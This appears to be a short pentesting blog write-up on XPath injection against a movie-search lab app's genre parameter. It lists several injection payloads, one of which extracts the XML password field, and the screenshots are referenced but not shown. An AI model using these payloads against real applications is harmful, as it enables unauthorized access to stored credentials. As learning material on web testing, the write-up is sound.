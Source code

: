 ```yaml
---
layout: post
title: XML\XPath Injection (Search)
categories:
  - Web-Pentesting
---
```


<br>..

![181](https://teckk2.github.io/assets/images/Web%20Pentest/A1/181.png)
![182](https://teckk2.github.io/assets/images/Web%20Pentest/A1/182.png)
<br>We can select the categories of the movie and the web app will the name of the movies but if you look at the URL there is genre=action specified that could be vulnerable to injection let’s check
![183](https://teckk2.github.io/assets/images/Web%20Pentest/A1/183.png)
<br>**Error**
<br>* genre=')]/password | a[contains(a,'
<br>* genre=') or contains(genre, '
<br>* genre=') or not(contains(genre, 'teck') and '1'='2
  
<br>these are the few conditions which we can use, although it is difficult to crack the Xpath field level until we know the detail of xml like this syntax value, genre, password these are xml fields.
  
![184](https://teckk2.github.io/assets/images/Web%20Pentest/A1/184.png)
<br>**genre=')]/password | a[contains(a,'**
![185](https://teckk2.github.io/assets/images/Web%20Pentest/A1/185.png)
<br>**genre=') or contains(genre, '**

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
